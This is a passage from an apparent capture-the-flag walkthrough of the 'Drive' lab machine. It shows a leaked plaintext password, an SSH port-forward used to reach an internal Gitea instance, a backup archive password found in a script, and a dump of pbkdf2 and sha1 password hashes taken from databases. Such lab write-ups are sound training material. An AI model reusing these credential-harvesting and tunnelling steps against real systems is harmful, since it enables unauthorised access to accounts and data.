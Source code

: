 ```text
hey team after the great success of the platform we need now to continue the work.
on the new features for ours platform.
I have created a user for martin on the server to make the workflow easier for you please use the password "Xk4@KjyrYv8t194L!".
please make the necessary changes to the code before the end of the month
I will reach you soon with the token to apply your changes on the repo
thanks! 
```


## Gitea SSH-Port Forwarding

The filtered port 3000 can be accessed from the intranet. We're going to throw a port and we're going to find Gitea.

```bash
$ ssh -L 3000:drive.htb:3000 martin@10.10.11.235
```

Let's register any user, log in and check the login of user martin:

```bash
martin@drive.htb
```

Using the password obtained earlier, log in as martin@drive.htb.

```bash
martin@drive.htb
Xk4@KjyrYv8t194L!
```

After that we immediately check the file ```http://localhost:3000/crisDisel/DoodleGrive/src/branch/main/db_backup.sh```, in which we find the backup password.

```bash
H@ckThisP@ssW0rDIfY0uC@n:)
```

Let's unpack all the archives and pull hashes from the databases, including the current database.

```bash
$ 7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
```

```bash
pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=
pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=
pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=
pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=
pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=
sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a
sha1$Ri2bP6RVoZD5XYGzeYWr7c$71eb1093e10d8f7f4d1eb64fa604e6050f8ad141
sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
```
